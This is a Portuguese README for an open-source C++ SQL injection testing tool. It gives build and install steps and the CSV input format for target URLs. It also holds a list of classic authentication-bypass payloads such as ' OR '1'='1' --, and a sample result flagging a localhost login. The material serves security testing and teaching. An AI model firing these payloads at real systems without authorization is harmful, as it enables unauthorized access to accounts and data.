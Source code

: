 # SQL Injection Tester

## Descrição

Este é um script em C++ desenvolvido para testar vulnerabilidades de SQL Injection em URLs fornecidas. Ele suporta tanto requisições GET quanto POST e pode processar corpos de requisição em formato JSON ou URL-encoded. O script também permite a adição de payloads personalizados através de um arquivo opcional.

## Funcionalidades

- Testa URLs para vulnerabilidades de SQL Injection.
- Suporta métodos HTTP GET e POST.
- Processa corpos de requisição em formato JSON e URL-encoded.
- Adiciona payloads personalizados a partir de um arquivo.
- Gera logs detalhados dos testes realizados.

## Pré-requisitos

- g++
- libcurl

## Compilação

Para compilar o script manualmente, utilize o seguinte comando:

```sh
g++ -o sql-injection-tester main.cpp -lcurl
```

## Instalação
```sh
git clone https://github.com/enigma-w-e-b/sql-injection-tester.git
cd sql-injection-tester
mkdir build
cd build
cmake ..
make
sudo make install
```

## Execução

```
sql-injection-tester --help
```


## Uso

### Execução com um arquivo CSV e payloads personalizados

Para executar o script usando um arquivo CSV e um arquivo de payloads personalizados, utilize o seguinte comando:

```sh
sql-injection-tester --csv ./urls.csv --payloads ./payloads.txt
```

### Formato do Arquivo CSV
O arquivo CSV deve ter o seguinte formato:

Para corpos de requisição em formato JSON:

``` 
http://localhost:3000/login|POST|{"username":"[test]", "password":"[test]"}
```
### Para corpos de requisição em formato URL-encoded:

```
http://localhost:3000/login|POST|username=[test]&password=[test]
```
## Formato do Arquivo de Payloads
### O arquivo de payloads deve conter um payload por linha, como no exemplo abaixo:

```
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' ({
' OR 1=1
' OR 1=1 --
' OR 1=1 ({
' OR 1=1 /*
' OR 1=1 #
' OR ''=''
' = '
' OR 'a'='a
' OR ''=' --
' OR ''=' ({
' OR ''=' /*
' OR ''=' #
' OR ''='
```
## Saída
Os resultados dos testes serão exibidos no terminal com coloração apropriada para indicar sucesso ou falha. Além disso, os resultados serão salvos em um arquivo CSV chamado results.csv.

Exemplo de Saída:

```
PASS - no vulnerability detected for: http://localhost:3000/login with body: username=test&password=test
DANGER - possible sql injection found: http://localhost:3000/login with body: username=' OR '1'='1' --&password=' OR '1'='1' --
```

## Licença

Este projeto é distribuído sob a licença MIT. Consulte `LICENSE` para obter mais informações.

# Aviso

### Este script foi desenvolvido para fins educacionais e não deve ser usado para realizar ataques maliciosos.

## Autor

#### Este projeto foi desenvolvido por Enigma Web, um integrante da corporação Cipher Systems.

